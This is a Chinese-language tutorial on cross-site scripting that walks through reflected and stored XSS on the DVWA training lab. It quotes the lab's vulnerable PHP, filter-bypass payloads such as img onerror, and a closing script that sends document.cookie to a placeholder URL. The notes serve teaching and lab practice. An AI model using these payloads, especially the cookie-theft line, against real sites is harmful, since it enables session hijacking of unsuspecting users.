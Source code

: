XSS
===

[TOC]

> 永远不要相信客户端传输的数据。



几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。





测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 



攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk

<img src="../images/xss/xss_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px" />

可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```

<img src="../images/xss/xss_low_alter.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px" />

可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**



### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击



#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html
<img src="javascript:alert(1)">
```

再输入

```
<img src=1 onerror=alert(1) />
```

成功

<img src="../images/xss/xss_low_freflected.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" height="100px"/>

源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

#####payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```



#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  <img src="../images/xss/xss_low_store_0.png " style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />

- 输入payload

  ```html
  name：pp
  message：<img src=x onerror=alert(1)>
  ```

  <img src="../images/xss/xss_low_store.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"/>

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  <img src="../images/xss/xss_low_store_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />



##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```
